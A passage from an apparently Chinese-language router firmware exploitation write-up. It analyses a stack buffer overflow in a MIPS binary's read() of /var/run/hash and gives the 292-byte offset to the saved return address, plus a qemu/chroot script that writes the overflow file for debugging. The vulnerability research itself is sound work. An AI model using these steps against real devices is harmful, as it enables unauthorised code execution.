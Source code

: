 	.text:00400AF0 lw $s2, 0xC0+var_8($sp)

	.text:00400AF4 lw $s1, 0xC0+var_C($sp)

	.text:00400AF8 lw $s0, 0xC0+var_10($sp)

	.text:00400AFC jr $ra

	.text:00400B00 addiu $sp, 0xC0

	.text:00400B00 # End of function sub_4009F0

来仔细看一下这个read的内容，s2是buf，也就是前面主函数传入的大小为0x100的缓冲区，s1是open的返回值，s0是一个栈空间。这里的read是直接读取了打开文件内的所有内容，并没有判断长度，造成了缓冲区溢出。

	la $t9, read

	move $a1, $s2 # buf

	move $a0, $s1 # fd

	jalr $t9 ; read

	move $a2, $s0 # nb

接下来就是布置栈空间进行溢出了，还要注意的是，根据前面post_login.xml显示，除了/var/run/hash文件要读取，还要读取/var/run/password文件，所以复现的时候要生成该文件，不然会导致异常退出。

## **漏洞利用**

### **寻找溢出点**

这里布置栈空间有两种选择，一种是溢出覆盖主函数的返回地址，还有一种就是溢出覆盖当前函数的返回地址。

先来看第一种。

可以看到返回地址是在栈空间上0x4的位置

	sw $ra, 0x3A8+var_4($sp)

而缓冲区是在栈空间0x128的位置

	addiu $s0, $sp, 0x3A8+var_128

所以填充的数量为0x128-0x4=292。

来测试一下看看，脚本如下。启动IDA附加调试

	mkdir -p ./var/run
	python -c 'print "A"*292+"BBBB"' | tr -d '\n' > ./var/run/hash
	#python exp.py | tr -d '\n' > ./var/run/hash
	python -c 'print "C"*32' | tr -d '\n' > ./var/run/password
	cp $(which qemu-mipsel) .
	chroot . ./qemu-mipsel -g 1234 /usr/sbin/widget -a /var/run/password
	#chroot . ./qemu-mipsel /usr/sbin/widget -a /var/run/password
	rm ./qemu-mipsel
	rm -fr ./var/run


![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g5cdkmlqnrj212h0k2qbp.jpg>)
